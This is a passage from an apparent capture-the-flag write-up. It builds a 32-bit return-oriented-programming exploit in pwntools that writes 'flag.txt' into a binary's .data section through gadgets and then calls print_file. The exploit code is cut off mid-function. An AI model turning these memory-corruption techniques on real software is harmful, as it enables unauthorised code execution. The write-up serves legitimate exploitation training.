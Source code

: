 Let's use the `.data` section which has the address
`0x0804a018`

Using everything we've found we can create a
function which will write to memory

```python
#!/bin/python3
from pwn import *

write_addr = 0x0804a018     # data addr
gadget2 = 0x08048555

# write byte string s
# to address addr
def write_string(addr, s):
    payload = b''
    for i in range(0, len(s)):
        c = s[i]
        payload += set_byte(c)
        payload += set_address(addr + i)
        # writes byte
        payload += p32(gadget2)     
    return payload

# construct payload
payload = b'A' * 44
fname = b'flag.txt'
payload += write_string(write_addr, fname)
```

## Exploit
We have everything we need to build our exploit

```python
#!/bin/python3
from pwn import *

write_addr = 0x0804a018     # data addr
pop_ebp = 0x080485bb
gadget1 = 0x08048543
gadget2 = 0x08048555
gadget3 = 0x08048558
print_file_addr = 0x080483d0

# sets the byte to write b into
# edx with gadget1
def set_byte(b):
    payload = b''

    # bit list of b
    target_bits = [1 if b & (1 << (7-n)) else 0 for n in range(8)]
    target_bits.reverse()

    # construct mask
    eax = 0xb0bababa
    mask_bits = []
    ti = 0
    # compare from eax's least significant bit (right)
    # to most significant bit (left)
    for i in range(0, eax.bit_length()):
        if ti >= len(target_bits):
            break
        tbit = target_bits[ti]
        bit = (eax >> i) & 1
```